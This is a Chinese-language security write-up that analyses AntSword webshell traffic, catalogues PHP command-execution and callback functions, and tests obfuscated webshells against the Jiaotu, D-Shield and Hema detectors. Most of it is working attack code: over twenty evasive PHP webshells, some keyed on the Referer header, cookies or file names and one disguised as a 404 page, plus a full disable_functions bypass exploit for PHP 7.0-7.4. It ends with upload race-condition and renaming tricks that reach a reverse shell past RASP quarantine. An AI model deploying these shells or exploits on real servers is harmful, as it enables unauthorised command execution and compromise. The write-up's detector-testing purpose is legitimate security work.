



### 蚁剑原理介绍

#### 前期准备

- 首先在蚁剑添加手动代理，用于`Burp`抓包分析


- PHP 5.4.45 + apache
- webshell

```php
<?php @eval($_POST['cmd']);?>
```

#### 抓包分析


```php
// 临时关闭PHP的错误显示功能
@ini_set("display_errors", "0");
// 设置执行时间，为零说明永久执行直到程序结束，是为了防止像dir、上传文件大马时超时。
@set_time_limit(0);
// asenc方法，接收参数，返回参数
function asenc($out){
    return $out;
};
function asoutput(){
    // 从缓冲区取出数据
    $output=ob_get_contents();
    // 清空缓冲区，并将缓冲区关闭
    ob_end_clean();
    echo "b48a94c80a";
    // 输出数据
    echo @asenc($output);
    echo "606e3eed3";
}
// 打开缓冲区，来保存所有的输出
ob_start();
try{
    // $_SERVER["SCRIPT_FILENAME"]是获取当前执行脚本的绝对路径，dirname() 函数返回路径中的目录名称部分，也就是说$D是当前执行脚本所在的目录
    $D=dirname($_SERVER["SCRIPT_FILENAME"]);
    if($D=="")
        // $_SERVER["PATH_TRANSLATED"]获取当前脚本所在文件系统（不是文档根目录）的基本路径。这是在服务器进行虚拟到真实路径的映像后的结果
        $D=dirname($_SERVER["PATH_TRANSLATED"]);
    // 拼接字符串和一个制表位
    $R="{$D}	";
    // 判断是否为Linux的文件目录
    if(substr($D,0,1)!="/"){
        // 遍历盘符
        foreach(range("C","Z")as $L)
            // 如果存在盘符
            if(is_dir("{$L}:"))
                // 拼接字符串
                $R.="{$L}:";
    }else{
        // 否则拼接/
        $R.="/";
    }
    // 拼接制表位
    $R.="	";
    // 判断posix_getegid方法是否存在，存在调用该方法按用户id返回用户相关信息
    $u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";
    // 如果用户信息不为空，则返回name属性，否则调用get_current_user()方法
    $s=($u)?$u["name"]:@get_current_user();
    // 返回运行 PHP 的系统的有关信息 并拼接
    $R.=php_uname();
    $R.="	{$s}";
    echo $R;
    ;}
catch(Exception $e){
    // 捕获异常
    echo "ERROR://".$e->getMessage();
};
// 运行程序
asoutput();
die();
```

```php
// posix_getpwuid — Return info about a user by user id
posix_getpwuid ( int $uid ) : array
// posix_geteuid — Return the effective user ID of the current process
posix_geteuid ( void ) : int
```

将此代码封装在`eval`函数中,让`eval`函数将此代码当作php代码执行，运行结果如下图所示：


当使用列目录等命令抓包分析如下：

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out){
    return $out;
};
function asoutput(){
    $output=ob_get_contents();
    ob_end_clean();
    echo "7322e6777";
    echo @asenc($output);
    echo "7529076fb4d2";
}
ob_start();
try{
    $D=base64_decode($_POST["od0d1a967133cb"]);
    $F=@opendir($D);
    if($F==NULL){
        echo("ERROR:// Path Not Found Or No Permission!");
    }else{
        $M=NULL;
        $L=NULL;
        while($N=@readdir($F)){
            $P=$D.$N;
            $T=@date("Y-m-d H:i:s",@filemtime($P));
            @$E=substr(base_convert(@fileperms($P),10,8),-4);
            $R="	".$T."	".@filesize($P)."	".$E."	";
            if(@is_dir($P))
                $M.=$N."/".$R;
            else $L.=$N.$R;
        }
        echo $M.$L;
        @closedir($F);
    };
}catch(Exception $e){
    echo "ERROR://".$e->getMessage();
};
asoutput();
die();
&od0d1a967133cb=QzovcGhwU3R1ZHkvV1dXLw==
```

```php
base64_decode("QzovcGhwU3R1ZHkvV1dXLw==")="C:/phpStudy/WWW/"
```


可以看见，其实用于eval函数执行的代码都是大体相同的，只是更改了`try-catch`代码块中的逻辑，对于传统的webshell管理工具，连接webshell并且执行相关命令需要使用类似`eval`,`assert`等函数将字符串当作php代码执行的性质，当连接成功之后，就可以利用当前web容器可解析的语言执行代码，并完成相关的操作。

### PHP可执行系统命令函数

#### system

```php
string system ( string $command [, int &$return_var ] );
# $command为执行的命令，&return_var可选，用来存放命令执行后的状态码
# system 函数执行有回显，可将结果显示在页面上

<?php
	system("whoami");
?>

```

#### passthru

```php
void passthru ( string $command [, int &$return_var ] );
# 和system函数类似，$command为执行的命令，&return_var可选，用来存放命令执行后的状态码
# passthru 执行有回显，可将执行结果显示在页面上

<?php
	passthru("whoami");
?>

```

#### exec

```php
string exec ( string $command [, array &$output [, int &$return_var ]] );
# $command是要执行的命令
# $output是获得执行命令输出的每一行字符串，$return_var用来保存命令执行的状态码（检测成功或失败）
# exec()函数执行无回显，默认返回最后一行结果

<?php
	echo exec("whoami");
?>

<?php  
$test = "ipconfig";   
exec($test,$array);      
print_r($array);  
?>

```

#### shell_exec

```php
string shell_exec( string &command);
# $command是要执行的命令
# shell_exec()函数默认无回显，通过 echo 可将执行结果输出到页面

<?php
	echo shell_exec("whoami");
?>
# `(反引号) shell_exec() 函数实际上仅是反引号 (`) 操作符的变体，当禁用shell_exec时，` 也不可执行
# 在php中称之为执行运算符，PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回

<?php
	echo `whoami`;
?

```

#### popen

```php
resource popen ( string $command , string $mode );
# 函数需要两个参数，一个是执行的命令command，另外一个是指针文件的连接模式mode，有r和w代表读和写。函数不会直接返回执行结果，而是返回一个文件指针，但是命令已经执行。popen()打开一个指向进程的管道，该进程由派生给定的command命令执行而产生。返回一个和fopen()所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用pclose()来关闭。此指针可以用于fgets()，fgetss()和 fwrite()
<?php  
$command = $_POST[cmd];  
$fp = popen($command,"r");
  
while (!feof($fp)) {
 $out = fgets($fp, 4096);  
 echo  $out;
}  
pclose($fp);  
?>

```

#### proc_open

```php
resource proc_open ( 
string $cmd , 
array $descriptorspec , 
array &$pipes [, string $cwd [, array $env [, array $other_options ]]] 
);
# 与Popen函数类似，但是可以提供双向管道
<?php  
$command = $_POST[cmd];  
$array =   array(  
 array("pipe","r"),   //标准输入  
 array("pipe","w"),   //标准输出内容  
 array("pipe","w")    //标准输出错误  
 );  
  
$fp = proc_open($command,$array,$pipes);   //打开一个进程通道  
echo stream_get_contents($pipes[1]);    //为什么是$pipes[1]，因为1是输出内容  
proc_close($fp);  
?> 

```

#### pcntl_exec

```php
void pcntl_exec ( string $path [, array $args [, array $envs ]] )
# path是可执行二进制文件路径或一个在文件第一行指定了 一个可执行文件路径标头的脚本
# args是一个要传递给程序的参数的字符串数组。
# pcntl是linux下的一个扩展，需要额外安装，可以支持 php 的多线程操作。
# pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP > 4.2.0
```

### PHP中回调函数后门

#### register_shutdown_function

```php
// (PHP 4, PHP 5, PHP 7)
// register_shutdown_function — 注册一个会在php中止时执行的函数
register_shutdown_function ( callable $callback [, mixed $parameter [, mixed $... ]] ) : void
```

```php
// php7+ 存在立即执行函数(function($a){@eval($a)})($_POST['cmd'])
<?php
    function test($a){
    	@eval("$a");
	}
	register_shutdown_function(test,$_POST['cmd']);
?>
```

#### array_udiff_assoc

```php
// (PHP 5, PHP 7)
// array_udiff_assoc — 带索引检查计算数组的差集，用回调函数比较数据
array_udiff_assoc ( array $array1 , array $array2 [, array $... ], callable $value_compare_func ) : array
```

```php
<?php
    function test($a){
        @eval($a);
    }
    array_udiff_assoc(array($_REQUEST['h']),array(1),"test");
?>
```

#### array_intersect_uassoc

```php
// (PHP 5, PHP 7)
// array_intersect_uassoc — 带索引检查计算数组的交集，用回调函数比较索引
array_intersect_uassoc ( array $array1 , array $array2 [, array $... ], callable $key_compare_func ) : array
```

```php
<?php
    array_intersect_uassoc(array($_REQUEST[h]=>" "),array(1),"assert");
?>
```

#### forward_static_call_array

```php
// forward_static_call_array — Call a static method and pass the arguments as array
forward_static_call_array ( callable $function , array $parameters ) : mixed
```

```php
<?php
	forward_static_call_array("assert",array($_REQUEST['h']));
?>
```

#### array_intersect_ukey

```php
// (PHP 5 >= 5.1.0, PHP 7)
// array_intersect_ukey — 用回调函数比较键名来计算数组的交集
```

```php
<?php
    array_intersect_ukey(array($_REQUEST['h']=>1),array(1),"assert");
?>
```

#### register_tick_function

```php
// register_tick_function — Register a function for execution on each tick
register_tick_function ( callable $function [, mixed $arg [, mixed $... ]] ) : bool
```

```php
<?php
	declare(ticks=1);
	register_tick_function("assert", $_REQUEST['h']);
?>
```

#### array_reduce

```php
// (PHP 4 >= 4.0.5, PHP 5, PHP 7)
// array_reduce — 用回调函数迭代地将数组简化为单一的值
array_reduce ( array $array , callable $callback [, mixed $initial = NULL ] ) : mixed
```

```php
<?php
	$arr = array(1);
	array_reduce($arr, "assert", $_REQUEST['h']);
?>
```

#### array_udiff

```php
// (PHP 5, PHP 7)
// array_udiff — 用回调函数比较数据来计算数组的差集
array_udiff ( array $array1 , array $array2 [, array $... ], callable $value_compare_func ) : array
```

```php
<?php
	$arr = array($_POST['h']);
	$arr2 = array(1);
	array_udiff($arr, $arr2, "assert");
?>
```

### 为什么回调函数中不能使用eval函数？assert函数在php7+不能使用

在php7以下，**eval**函数是一个语言构造器，**assert**是一个函数

在php7+，**eval**是一个语言构造器，**assert**也是一个语言构造器

#### 官网介绍

##### assert


##### eval


### webshell检测（未开启Rasp）

#### 1.php

```php
# password : h
# url:http://10.95.58.17/Joomla/uploadComponents/upload/1.php?h=whoami
```

执行结果:


```php
<?php 
    $c=$_REQUEST["h"];
	@set_time_limit(0);
	@ignore_user_abort(1);
	@ini_set('max_execution_time',0);
	$z=@ini_get('disable_functions');
	if(!empty($z)){
    	$z=preg_replace('/[, ]+/',',',$z);
    	$z=explode(',',$z);$z=array_map('trim',$z);
	}else{
    	$z=array();
	}
	$c = $c." 2>&1\n";
	function f($n){
    	global $z;
    	return is_callable($n)and!in_array($n,$z);
	}
	if(f('system')){
    	ob_start();
    	system($c);
    	$w=ob_get_contents();
    	ob_end_clean();
	}elseif(f('proc_open')){
    	$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);
    	$w=NULL;
    	while(!feof($t[1])){
        	$w.=fread($t[1],512);
    	}
    	@proc_close($y);
	}elseif(f('shell_exec')){
    	$w=shell_exec($c);
	}elseif(f('passthru')){
    	ob_start();
    	passthru($c);
    	$w=ob_get_contents();
    	ob_end_clean();
	}elseif(f('popen')){
    	$x=popen($c,r);
    	$w=NULL;
    	if(is_resource($x)){
        	while(!feof($x)){
            	$w.=fread($x,512);
        	}
    	}
    	@pclose($x);
	}elseif(f('exec')){
    	$w=array();exec($c,$w);
    	$w=join(chr(10),$w).chr(10);
	}else{
    	$w=0;
	}
	print "<pre>".$w."</pre>";
?>
```

#### 2.php

```php
# php5可执行，php7+ 不可执行,可能是preg_replace()函数
# password : b4dboy
```

```php
<?php ($b4dboy = $_POST['b4dboy']) &&
@preg_replace('/ad/e','@'.str_rot13('riny')."($b4dboy)", 'add'); ?>
```


#### 3.php

```php
# password : cmd
```

```php
<?php
    function test($a){
    	@eval("$a");
	}
	register_shutdown_function(test,$_POST['cmd']);
?>
```


#### 4.php

```php
# passwd: h
```

```php
<?php
    function test($a){
		@eval($a);
	}
	array_udiff_assoc(array($_REQUEST['h']),array(1),"test");
?>
```


#### 5s.php

```php
# php5>=php5.3.0 php7 php7.1+不可用
# password:h
```

```php
<?php
	$password="h";
	${"h"}=substr(__FILE__,-5,-4)."class";
	$f=$h^hex2bin("12101f040107");
	array_intersect_uassoc(array($_REQUEST[$password]=>" "),array(1),$f);
?>
```

#### 6.php

```php
# PHP5>=5.3.0,PHP7，php7.1+ 不可用
# password:h
# Referer:http://www.target.com/ass.php
```

```php
<?php
	/**
	*Noticed:(PHP5>=5.3.0,PHP7)
	*
	*/
	$password="h";
	$wx=substr($_SERVER["HTTP_REFERER"],-7,-4);
	forward_static_call_array($wx."ert",array($_REQUEST[$password]));
?>
```

```php
// test_6.php
<?php
	/**
	*Noticed:(PHP5>=5.3.0,PHP7)
	*
	*/
	$password="h";
	$wx = substr($_SERVER["HTTP_REFERER"],-7,-4);
	forward_static_call_array($wx."tem",array($_REQUEST[$password]));
?>
```


#### 7.php

```php
# password: h
# Cookie: set-domain-name=ass
# PHP5>=5.4.0,PHP7
```

```php
<?php
	/**
	*Noticed:(PHP5>=5.4.0,PHP7)
	*
	*/
	$password="h";
	$ch=$_COOKIE["set-domain-name"];
	array_intersect_ukey(array($_REQUEST[$password]=>1),array(1),$ch."ert");
?>
```

```php
// test_7.php
<?php
	/**
	*Noticed:(PHP5>=5.4.0,PHP7)
	*
	*/
	$password="h";
	$ch=$_COOKIE["set-domain-name"];
	array_intersect_ukey(array($_REQUEST[$password]=>1),array(1),$ch."tem");
?>
```


#### 8.php

```php
# PHP5>=5.4.0,PHP7
# password:h
```

```php
<?php
	$password="h";
	$key=substr(__FILE__,-5,-4);
	${"LandGrey"}=$key."Land!";
    $trick=array(
        "0"=>"51","1"=>"50","2"=>"53","3"=>"52","4"=>"55","5"=>"54","6"=>"57","7"=>"56","8"=>"59",
        "9"=>"58","a"=>"00","b"=>"03","c"=>"02","d"=>"05","e"=>"04","f"=>"07","g"=>"06","h"=>"09",
        "i"=>"08","j"=>"0b","k"=>"0a","l"=>"0d","m"=>"0c","n"=>"0f","o"=>"0e","p"=>"11","q"=>"10",
        "r"=>"13","s"=>"12","t"=>"15","u"=>"14","v"=>"17","w"=>"16","x"=>"19","y"=>"18","z"=>"1b",
        "A"=>"20","B"=>"23","C"=>"22","D"=>"25","E"=>"24","F"=>"27","G"=>"26","H"=>"29","I"=>"28",
        "J"=>"2b","K"=>"2a","L"=>"2d","M"=>"2c","N"=>"2f","O"=>"2e","P"=>"31","Q"=>"30","R"=>"33",
        "S"=>"32","T"=>"35","U"=>"34","V"=>"37","W"=>"36","X"=>"39","Y"=>"38","Z"=>"3b",
    );
	$f=pack("H*",$trick[$key]."3f120b1655")^$key."Land!";
	array_intersect_uassoc(array($_REQUEST[$password]=>""),array(1),$f);
?>
```

#### 9.php

```php
# password: h
```

```php
<?php
	call_user_func('assert', $_REQUEST['h']);
?>
```


#### 10.php

```php
# PHP5>=5.4.0,PHP7
# password: e=YXNzZXJ0&pass=
```

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array('test', $_REQUEST['pass']);
	uasort($arr, base64_decode($e));
?>
```

#### 11.php

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array('test' => 1, $_REQUEST['pass'] => 2);
	uksort($arr, $e);
?>
```

#### 12.php

```php
### password:e=assert&pass=phpinfo()
```

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array(1);
	array_reduce($arr, $e, $_POST['pass']);
?>
```


#### 13.php

```php
# password:e=assert&pass=phpinfo()
```

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array($_POST['pass']);
	$arr2 = array(1);
	array_udiff($arr, $arr2, $e);
?>
```


#### 14.php

```php
<?php
	$POST['POST']='assert';
	$array[]=$POST;
	$array[0]['POST']($_POST['h']);
?>
```

#### 15.php

```php
<?php
	error_reporting(0);
	$g = array('','s');
	$gg = ass.$g[1].er.chr('116');
	@$gg($_REQUEST[h]);
?>
```

```php
# test_15.php
<?php
	error_reporting(0);
	$g = array('','s');
	$gg = sy.$g[1].te.chr('109');
	@$gg($_REQUEST[h]);
?>
```


#### 16.php

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array($_POST['pass'],);
	array_filter($arr, base64_decode($e));
?>
```


#### 17.php

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array($_POST['pass'],);
	array_map(base64_decode($e), $arr);
?>
```


#### 18.php

```php
# password:pass=system()
```

```php
<?php mb_ereg_replace('.*', @eval($_REQUEST['pass']), '', 'e'); ?>
```


```php
<?php mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e'); ?>
```


#### 19.php

```php
# password: e=system&pass=whoami
```

```php
<?php
	$e = $_REQUEST['e'];
	declare(ticks=1);
	register_tick_function($e, $_REQUEST['pass']);
?>
```


#### 20.php

```php
<?php
	filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));
?>
```

#### 21.php

```php
<?php $_GET[a]($_GET[b]);?>
```


#### 22.php

```php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
    <head>
        <title>404 Not Found</title>
    </head>
    <body>
        <h1>Not Found</h1>
        <p>The requested URL was not found on this server.</p>
    </body>
</html>
<?php
function result(){
$g = array('','s');
$gg = sy.$g[1].te.chr('109');
return @$gg($_REQUEST[h]);
//${"h"} = "ass".$_REQUEST["a"];
//return $h($_REQUEST['b']);
}
error_reporting(0);
@preg_replace_callback("//","result","");
header('HTTP/1.1 404 Not Found');
?>
```


#### 23.php

```php
<?php substr(md5($_REQUEST['x']),28)=='eba0'&&eval($_POST['c']);?>
```


#### bypass.php

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn($_GET["cmd"]);

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```


#### shell.php

```php
<?php @eval($_POST['ap'])?>
```


#### 椒图&D盾&河马检测结果

##### 河马




##### D盾


##### 椒图




#### 椒图&D盾&河马比较

##### 椒图

| 未知webshell检测情况                                         | 已知webshell检测情况                                         | 未检测出webshel检测情况                                      |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 1.php<br />4.php<br />9.php<br />10.php<br />12.php<br />14.php<br />15.php<br />test_15.php<br />22.php | 2.php<br />6.php<br />11.php<br />13.php<br />16.php<br />17.php<br />18.php<br />test_18.php<br />19.php<br />20.php<br />21.php<br />23.php<br />shell.php | 3.php<br />5s.php<br />7.php<br />8.php<br />test_6.php<br />test_7.php<br />bypass.php |

其中椒图未检测出webshell的原理图如下表

| webshell   | 原理                                                         |
| ---------- | ------------------------------------------------------------ |
| 3.php      | register_shutdown_function ( callable $callback [, [mixed] $parameter [,mixed $... ]] ) : void<br />其中$callback回调函数，它会在脚本执行完之后或者exit()之后执行 |
| 5s.php     | array_intersect_uassoc ( array $array1 , array $array2 [, array $... ],callable $key_compare_func ) : array<br/>索引检查计算数组的交集，用回调函数比较索引<br/>其中$f 是通过hex2bin 与文件最后一个字符以s 命名结合而成assert，由于<br/>php7.1+不可用assert函数，靶机环境7.2，故未成功 |
| 7.php      | array_intersect_ukey ( array $array1 , array $array2 [, array $... ],callable $key_compare_func ) : array<br/>用回调函数比较键名来计算数组的交集<br/>其中通过HTTP Headers Cookie[set-domain-name]将ass 字符与ert 字符拼接,构成assert 将其构造成回调函数，并利用，由于php7.1+不可用assert函数，靶机环境7.2，故未成功 |
| 8.php      | 同5s.php，只不过是为了绕过文件上传后文件重命名，不能截取对应的字符构成assert ；<br/>所以对所有的字符做了一个key,当检索到key 就将其转换，并构成assert |
| test_6.php | forward_static_call_array ( callable $function , array $parameters ) : mixed<br/>调用function 参数给定的用户定义函数或方法。此函数必须在方法上下文中调用，不能在类外部使用。它使用后期静态绑定。与call_user_func_array()类似,转发的方法的所有参数都作为值和数组传递。其中通过HTTP Headers [Referer],截取(-7,-4)的三个字符 比如`http://www.target.com/sys.php `截取sys 这个字符与tem 组合构成system |
| test_7.php | 同7.php，由于目标靶机php版本为7.2，assert断言无法使用，故改为system()执行系统命令 |
| bypass.php | 绕php7.0-7.4中disable_function的poc，且可执行命令            |

##### D盾

D盾共检测了28个webshell，分析之后，大概可以知道，D盾对使用回调函数时且在参数或者函数体存在`$_POST[] `， `$_GET[]` ， `$_REQUEST `的检测很严格，当回调函数中或者函数体中出现这些参数则会被检测出来，当回调函数参数或者函数体不存在`$_POST[] `， `$_GET[]` ，` $_REQUEST` 时，则检测为正常。

##### 河马

河马一共检测出12个后门，其中有3个需要人为确定是否为后门，分析之后，大概知道河马的检测规则多数为参数`$_POST[]`，` $_GET[]` ，` $_REQUEST `,变量数，编码风险函数有关；当正常使用php官方的拥有回调函数的方法，则未被检测出来。

#### 总结

通过对椒图的webshell检测能力测试，发现椒图对php内置的安全函数并未严格控制，如register_shutdown_function ， array_intersect_uassoc ， array_intersect_ukey ；

针对5s.php 和8.php ，通过文件名字来构成危险函数并未检测到；

针对6.php , test_6.php ，都是通过截取HTTP_REFERER 的字符串，拼接危险函数assert , system ,按理来说， test_6.php 也应该能检测到，但是未检测出来，如果是因为， system 这6个敏感字符不存在检测规则中，建议及时添加，并监控http头部是否有奇怪的字符并能拼接成字符串；

针对7.php , test_7.php ，都是通过截取$_COOKIE["set-domain-name"] 中的字符串，来拼接成危险函数；

最后对于bypass.php ,是之前学习bypass disable function 的时候在github上找到的一个用来绕php7.0-php7.4的通用型脚本，测试在apache，nginx 两个web容器上能稳定运行。（暂时还未吃透该poc）

### webshell检测（开启rasp）




#### 上传1.php - 29.php

由于开启了应用防护，会将已知webshell，未知webshell隔离，所以不部分已知webshell，未知webshell都会被隔离，当全部上传成功之后，上传文件列表如图所示：


#### 3.php


#### test_6.php


#### test_7.php


#### bypass.php


#### 椒图检测情况

可以看到，反弹shell的敏感操作，都能被捕获，但是蚁剑在未编码的情况下，成功连接，未被检测到。


当存在如下的敏感操作，webshell并未被隔离


#### Bug1 同一马不同名未隔离

上传同一个马，改变文件名称，使用burp的Intruder模块枚举上传如666a.php , 777a.php 未受影响，可以上传成功，当执行了敏感操作，椒图才能检测到，再杀马，但是在检测到敏感操作之前，其实就已经可以执行系统命令反弹shell了


> 同1.php

服务端执行结果


url编码之后，反弹shell


当反弹时shell成功之后，再去查看文件是否已删除，发现777a.php 并未删除，当手动删除之后，再上传这个马，就传不上去了（椒图显示为检测到已知webshell）,推测当检测为未知webshell时，存在误差，会判断是否进行敏感操作，因此进行隔离。

#### Bug 2 条件竞争

利用burp枚举上传类似1.php 的可执行php系统函数如system() ，形成条件竞争，当来不及隔离webshell之前，反弹shell可成功


bug分析：

隔离存在时间差，当高并发上传webshell的时候，服务器应该考虑是否是脚本攻击，对脚本攻击的大量的请求，应该及时封掉ip